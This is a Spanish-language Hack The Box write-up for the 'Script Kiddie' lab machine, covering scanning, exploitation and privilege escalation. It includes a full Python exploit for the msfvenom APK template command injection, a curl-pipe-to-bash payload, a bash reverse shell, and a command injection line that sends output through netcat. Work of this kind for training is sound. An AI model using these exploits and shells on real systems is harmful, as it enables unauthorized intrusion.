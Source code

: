 ```yaml
---
title: "Script Kiddie - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/Scriptkiddie.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - Sudo
  - Linux
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/HTBscriptkiddie.png">
</p>

La máquina **Script Kiddie** es una máquina virtual vulnerable de la plataforma **HackTheBox** con un nivel de dificultad **fácil** una calificación en el rank de 4.1, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.226** y un sistema operativo **Linux**.


# Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.226]** utilizando los parámetros:
 - **-p-:**    Escaneo a toda la gama de puertos (65536).
 - **-n:**     No hacen la resolución del DNS.
 - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
 - **-v:**     Aumenta el nivel de los mensajes verbose.
 - **--open:** Muestra sólo los puertos con un estatus abierto.
 - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/scanPort.png?raw=true">
</p>

Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5000**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/Ports.png?raw=true">
</p>

Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

 - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
 - -sV: Detección de versiones en servicios alojados en puertos.
 - -p : Puertos a inspeccionar.
 - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/PortServ.png?raw=true">
</p>

Gracias a lo que nos mostró el escaneo de servicios y versiones se puede ver que en el puerto **5000** se aloja un servicio **http** y en el puerto **22** un servicio **ssh**, sabiendo esto y yendo a un navegador e ingresando al servicio **http** por el puerto **5000** se puede ver la siguiente web.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/web.png?raw=true">
</p>

Es una web que cuenta con diferentes herramientas implementada en la web de pentesting como **nmap**, **msfvenom** y **searchsploit**.
Algo que se alcanza a ver es que en la herramienta implementada de **msfvenom** se pueden subir **template**, investigando se puede llegar a un articulo el cual explica una vulnerabilidad existente en una version [desactualizada del framework de metasploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

En ella se habla de como crear un **apk** malicioso con el cual a la hora de implementarlo como **template** en la creación de un archivo apk el **apk tmplate** injecta comandos en la maquina.

En el articulo habla de como hacerlo con la herramienta de **metasploit** pero no es necesario ya que podemos hacer uso del siguiente código en python que saque de el [github de justinsteven ](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).
```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = '[Insert Payload]'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```
En este código solo tenemos que cambiar el **payload** para el **apk maliciosos** que generaremos, en este caso yo me enviare 5 paquetes icmp y para verificar si tengo ejecución de comando examinare los paquetes con **tcpdum**.


Así que voy a la web y cargo el apk malicioso que generé con el script en python.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp1.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp2.png?raw=true">
</p>

Excelente si tenemos ejecución de comandos en la maquina victima así que modificare el payload para entablar me una shell a mi maquina.

Como yo tuve fallas para entablar me la shell lo que hice fue crear un archivó con codigo en bash en mi maquina y levantar un servicio **http** con python y en el payload del script ingresar: **```payload = 'curl http://[Your IP]/bash.sh | bash'```**.


Esto es así ya que cuando la maquina victima haga el curl y vea el contenido del archivo al pipearlo con bash interpretara el código que en este caso es una conexión por bash a mi maquiná y así otorgándome la shell.

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your Ip]/[PORT] 0>&1
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell.png?raw=true">
</p>


# Privilege escalation


Ahora que ya tenemos el acceso a la maquina se puede ver que accedemos como el usuario **kid** y enumerando el sistema se ve que existen 3 usuario:
* root
* kid
* pwd

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/passwd.png?raw=true">
</p>

En el dirección personal de **kid** hay una carpeta **logs/** con un archivo llamado **hackers** el cual no tiene contenido.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/kid.png?raw=true">
</p>

Si enumeramos mas el sistem podemos acceder al directorio personalde **pwd** en el cual hay un archivo .sh que tiene el siguiente contenido

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Lo que hace este código es verificar si el archivo **"hackers"** tiene contenido y si lo tiene lo filtra a partir del tercer argumento del contendió que tenga y luego este contenido que se supone que debe ser una ip lo manda como argumento a comando de namp para hacer el escaneo.


Algo que podemos hacer es imprimir contenido en el archivo **hackers** y poner en blanco 3 espacios para evitar asi el filtro y concatenado un **';'** esto es así ya que estamos indicando que después de hacer el cat ejecuta la siguiente orden que le pasaremos la cual sera un comando a nuestro beneficio junto a un **'#'** para que no entre en conflicto ningún argumento del script y todo este output ingresarlo en **hackers**.

En este caso para verificar que funcionara probe haciendo un **"whoami"** y enviar el output por **'netcat'** a mi maquina

```bash
echo '    ; whoami | nc 10.10.15.125 444 #' > hackers
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/whoami.png?raw=true">
</p>

Excelente ya que se comprueba que podemos injectar comando como **pwd** entonces me entablare una conexión a mi maquina y por ende me dará la shell como el usuario  **pwd**

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell2.png?raw=true">
</p>

Muy bien ahora que somos **pwd** buscaremos la forma de escalar privilegios a **root**, enumerando el sistema podemos ver que el usuario **pwd** tiene permisos sudo para ejecutar sin contraseña el framework **/opt/metasploit-framework-6.0.9/msfconsole**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/sudo.png?raw=true">
</p>

Sabiendo esto una vez que estamos dentro de mestasploit podemos ejecutar comandos como si estuviéramos en una shell y si lo hacemos bajo el privilegios sudo estaríamos ejecutando comando como root e incluso otorgarnos una shell como el mismo.

```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/root.png?raw=true">
</p>

Con esto se podría concluir la maquina **ScriptKiddie** así sacando el máximo privilegios que es **root**.

Muchas Gracias por leer <3.

